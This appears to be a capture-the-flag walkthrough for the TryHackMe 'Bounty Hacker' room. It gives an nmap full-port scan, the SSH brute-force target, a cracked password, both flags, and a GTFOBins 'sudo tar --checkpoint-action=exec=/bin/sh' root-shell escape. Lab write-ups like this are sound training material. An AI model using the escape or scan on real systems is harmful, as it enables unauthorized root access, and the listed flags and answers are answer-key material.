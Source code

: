 # Bounty Hacker

## Task 1 Living up to the title.

### Deploy the machine.

{% hint style="success" %}
No answer needed
{% endhint %}

### Find open ports on the machine

```text
nmap -sC -sV -T5 -p1-65535 10.10.40.31
```

![](../.gitbook/assets/image%20%28314%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

### Who wrote the task list?

![](../.gitbook/assets/image%20%28308%29.png)

![](../.gitbook/assets/image%20%28300%29.png)

{% hint style="success" %}
lin
{% endhint %}

### What service can you bruteforce with the text file found?

{% hint style="success" %}
ssh
{% endhint %}

### What is the users password?

![](../.gitbook/assets/image%20%28299%29.png)

{% hint style="success" %}
RedDr4gonSynd1cat3
{% endhint %}

### user.txt

![](../.gitbook/assets/image%20%28306%29.png)

{% hint style="success" %}
THM{CR1M3\_SyNd1C4T3}
{% endhint %}

### root.txt

```text
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![](../.gitbook/assets/image%20%28301%29.png)

{% embed url="https://gtfobins.github.io/gtfobins/tar/" %}

{% hint style="success" %}
THM{80UN7Y\_h4cK3r}
{% endhint %}

